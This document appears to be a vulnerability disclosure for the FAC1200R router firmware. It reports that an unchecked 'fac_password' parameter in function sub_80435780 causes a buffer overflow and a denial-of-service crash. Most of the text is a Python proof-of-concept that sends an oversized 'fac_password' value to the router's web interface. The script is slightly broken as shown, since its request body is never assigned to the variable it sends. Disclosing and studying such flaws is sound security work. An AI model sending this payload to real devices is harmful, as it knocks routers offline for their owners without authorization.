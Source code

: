 Submittion Date: 2025.4.18  
Vendor: FAC1200R  
Firmware: F400_FAC1200R_Q  
Download Link: https://service.fastcom.com.cn/download-265.html

The function sub_80435780 handles the important parameter string 'fac_password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-fast-2.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
{"uhttpd":{"webPwd":{"password":"a","fac_password":"a"*0x2000}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/fast-2.png)
